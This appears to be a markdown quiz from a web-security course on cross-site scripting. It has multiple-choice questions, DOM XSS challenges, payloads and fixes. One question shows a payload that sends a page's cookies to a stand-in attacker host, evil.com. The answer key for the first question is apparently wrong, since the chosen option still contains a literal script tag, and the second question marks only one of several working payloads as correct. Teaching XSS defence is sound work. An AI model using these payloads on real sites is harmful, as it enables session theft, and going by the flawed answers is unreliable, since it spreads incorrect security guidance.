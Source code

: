 ```yaml
---
[🏠 Home](../../../../README.md) / [🌐 Web Application Security](../) / [🔎 Cross-Site Scripting](./quiz.md)

[⬅️ Previous](../1.01-input-validation-injection/quiz.md) | [➡️ Next](../1.03-authentication-session/quiz.md)
---
```


# [Subtopic Title Here]

### 🧪 MCQ 1 – XSS Filter Bypass

**Question:**  
You're testing a travel booking web app. The "destination" search field reflects user input directly in the HTML with no escaping.  
Server response:
```html
<p>Searching for flights to: [USER_INPUT]</p>
```
You enter: `"><script>fetch('https://evil.com/'+document.cookie)</script>`  
But it gets blocked by a WAF with the message: "Blocked: script tag detected"

**Which of the following payloads is MOST likely to bypass the filter and still achieve XSS?**

A. `<img src=x onerror=alert(1)>`  
B. `<script type=text/javascript>alert(1)</script>`  
C. `<svg/onload=alert(1)>`  
D. `<scr<script>ipt>alert(1)</script>`

**Answer:** D  
**Explanation:** A polyglot tag bypasses basic string-matching WAFs while remaining functional in the browser. Option D splits the `script` tag in a way that bypasses blacklist filters but executes fully.

---

### 🧪 MCQ 2 – DOM-Based XSS Injection

**Question:**  
A React app has this code:  
```js
const params = new URLSearchParams(window.location.search);  
document.getElementById("welcome").innerHTML = params.get("name");
```

Which payload will most likely execute an alert if there's no CSP or framework sanitization?

A. `?name=<script>alert('XSS')</script>`  
B. `?name="><img src=x onerror=alert('XSS')>`  
C. `?name=<svg/onload=alert('XSS')>`  
D. `?name="><svg onload=alert('XSS')>`

**Answer:** D  
**Explanation:** Script tags do not execute when inserted via `.innerHTML`, but `svg` tags with event handlers like `onload` do. This makes option D the most reliable payload for this DOM-based context.

---

### 🧨 DOM XSS – Real-World Challenge 1

**Code Snippet:**
```js
const route = new URLSearchParams(location.search).get("view");
document.getElementById("container").innerHTML = `<div>${route}</div>`;
```

**Payload:** `?view="><svg onload=alert('XSS')>`

**Explanation:**  
- User input is reflected via `.innerHTML` without sanitization.  
- Payload breaks out of the `<div>`, injects an `<svg>` tag.  
- `onload` executes, triggering XSS.

**Fixes:**  
1. Replace `.innerHTML` with `.textContent`  
2. Use `DOMPurify.sanitize(route)` before insertion

---

### 🧨 DOM XSS – Real-World Challenge 2

**Code Snippet:**
```js
const page = location.hash.substring(1);
eval(page);
```

**Payload:**  
```
https://example.com/#1;alert(1)
```

**Explanation:**  
- The app uses `eval()` on untrusted data from `location.hash`.  
- An attacker can inject JavaScript after the `#`, causing arbitrary code execution.

**Vulnerability Type:**  
- DOM-Based XSS

**Why `eval()` is Dangerous:**  
- `eval()` executes any input as JavaScript code, making it extremely risky if not properly controlled.  
- If attacker-controlled input reaches `eval()`, it's game over — full XSS.

**Fixes:**  
1. **Avoid using `eval()`** entirely. Use `switch-case` or safely map values to functions.
2. **Parse input safely** using built-in JS utilities or libraries.
3. **Sanitize hash values** before any DOM insertion or logic execution.
4. **Use DOMPurify** or similar libraries.
5. **Set a Content Security Policy (CSP)** to restrict script execution.